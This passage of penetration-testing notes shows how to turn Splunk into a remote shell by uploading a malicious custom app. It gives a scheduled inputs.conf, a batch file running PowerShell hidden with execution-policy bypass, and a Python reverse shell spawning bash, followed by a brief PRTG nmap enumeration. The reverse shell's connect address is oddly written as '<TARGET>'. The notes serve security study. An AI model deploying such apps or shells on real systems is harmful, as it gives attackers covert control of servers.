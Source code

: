 The inputs.conf file tells Splunk which script to run and any other conditions. Here we set the app as enabled and tell Splunk to run the script every 10 seconds:
```
[script://./bin/rev.py]
disabled = 0  
interval = 10  
sourcetype = shell 

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```

We need the **.bat** file, which will run when the application is deployed and execute the PowerShell one-liner:
```batch
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```

Once the files are created, we can create a tarball or **.spl** file:
```console
zero@pio$ tar -cvzf updater.tar.gz splunk_shell/
```

The next step is to choose `Install app from file` and upload the application in `manager/search/apps/local`{: .filepath}. Open a netcat and start the application. If we were dealing with a Linux host, we would need to edit the rev.py Python script before creating the tarball and uploading the custom malicious app:
```python
import sys,socket,os,pty

ip="<TARGET>"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```

---

## PRTG Network Monitor 

PRTG Network Monitor is agentless network monitor software. It can be used to monitor bandwidth usage, uptime and collect statistics from various hosts, including routers, switches, servers, and more.  It can typically be found on common web ports such as **80**, **443**, or **8080**. It is possible to change the web interface port in the Setup section when logged in as an admin.
```console
zero@pio$ sudo nmap -sV -p- --open -T4 <TARGET>

...
8080/tcp  open  http          Indy httpd 17.3.33.2830 (Paessler PRTG bandwidth monitor)
```
